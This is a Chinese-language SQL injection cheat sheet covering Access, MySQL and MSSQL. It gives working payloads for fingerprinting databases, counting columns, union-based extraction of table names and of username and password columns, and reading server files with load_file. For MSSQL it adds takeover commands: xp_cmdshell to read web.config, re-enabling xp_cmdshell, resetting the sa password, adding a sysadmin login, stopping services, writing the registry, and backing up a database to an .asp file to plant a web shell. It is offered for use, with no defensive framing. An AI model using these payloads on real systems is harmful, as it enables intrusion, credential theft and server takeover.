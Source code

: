 判断数据库类型:                                                                              
Access:
 and (select id from MSysAccessObjects) >0 返回正常说明是access


MSSQL:
 and (select id from sysobjects) >0 返回正常说明是mssql


MySQL:
 and length(user())>0    返回正常说明是MySQL


mysql：

1.判断版本 and ord(mid(version(),1,1))>51 /* 返回正常说明是4.0以上版本，可以用union查询
2.利用order by 暴字段，在网址后加 order by 10 /* 如果返回正常说明字段大于10
3.再利用union来查询准确字段，如: order by 或者and 1=2 union select 1,2,3,......./*直到返回正常，说明猜到准确字段数。如过滤了空格可以用/**/代替。
4.判断数据库连接帐号有没有写权限，and (select count(*) from mysql.user)>0 /*如果结果返回错误，那我们只能猜解管理员帐号和密码了。
5.如果返回正常，则可以通过and 1=2 union select 1,2,3,4,5,6,load_file(char(文件路径的ascii值，用逗号隔开)),8,9,10 /* 注：load_file(char(文件路径的ascii值，用逗号隔开))也可以用十六进制，通过这种方式读取配置文件，找到数据库连接等。

6、检测是不是root权限 and/**/ord(mid(user(),1,1))=114/*

7、mysql内置函数hex()转换字符为16进制，如select hex(user())
mysql内置函数unhex() 解码16进制，如select unhex(hex(user())) 

8、mysql内置函数concat()将多列合并成一列，如select concat(username,0x3A,password) from t_member

9常用内置函数使用：
select system_user()  查看系统用户

select current_user()  查询当前用户

select user()  查询用户

SELECT version()  查询数据库版本

SELECT database()  查询当前连接的数据库

select @@version_compile_os 查询当前操作系统

select @@datadir    查询读取数据库路径
select @@basedir    查询MYSQL安装路径

----------------------淫荡的分割线---------------------------------------------

去掉limit 1,1为查询出所有行，第一个数字代表查询第几个，第二个数字代表一次查询出的数量
第一个数字从1开始递增，查询到3时浏览器返回错误，说明存在2个库/表。

10、查数据库数量
union select cuncat(schema_name,0x3A)  from information_schema.schemata limit 1,1


11、查询表
union select table_name from information_schema.tables where table_schema =库名 limit 1,1




MSSQL：

检测是否为SA权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--

检测是否为DB权限
and 1=(Select IS_MEMBER('db_owner'))

爆所有数据库 union select name from master.dbo.sysdatabases where dbid=1  1代表第一个库

爆所有表
第一张表 union select  top 1 name from 库名.dbo.sysobjects where xtype='U'

第二张表 union select  top 1 name from 库名.dbo.sysobjects where xtype='U' and name not in('第一张表')

第三张表 union select  top 1 name from 库名.dbo.sysobjects where xtype='U' and name not in('第一张表','第二张表')
...


爆列：
爆ID  select id from seay.dbo.sysobjects where xtype='U' and name='admin'

爆第一个列 select top 1 name from seay.dbo.syscolumns where id=ID号

爆第二个列  select top 1 name from seay.dbo.syscolumns where id=ID号 and name not in('第一个列')
...


爆数据：
select 列名 from 表名


exec master.dbo.xp_dirtree 'c:\';  遍历目录
exec master.dbo.xp_availablemedia;-- 获得当前所有驱动器 
exec master.dbo.xp_subdirs 'c:\';-- 获得子目录列表 
exec master.dbo.xp_dirtree 'c:\';-- 获得所有子目录的目录树结构 
exec master.dbo.xp_cmdshell 'type c:\web\web.config';-- 查看文件的内容 

备份数据库：backup database 库名 to disk='c:/l.asp'; 


MSSQL内置函数：
select @@version  查询数据库版本

select user_name() 查询当前数据库连接用户名

select db_name()  查询当前数据库名


更改sa密码
exec sp_password NULL,'新密码','sa'


添加SA权限用户
exec sp_addlogin 'username','pass','master';
exec sp_addsrvrolemember 'username', sysadmin



检测是否支持多行
;declare @d int;--


停掉或激活某个服务。

exec master..xp_servicecontrol 'stop','schedule'
exec master..xp_servicecontrol 'start','schedule'


解开压缩档。

xp_unpackcab 'c:\test.cab','c:\temp',1



恢复 xp_cmdshell
;exec master..dbo.sp_addextendedproc 'xp_cmdshell','xplog70.dll';--


开启沙盘模式：
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1



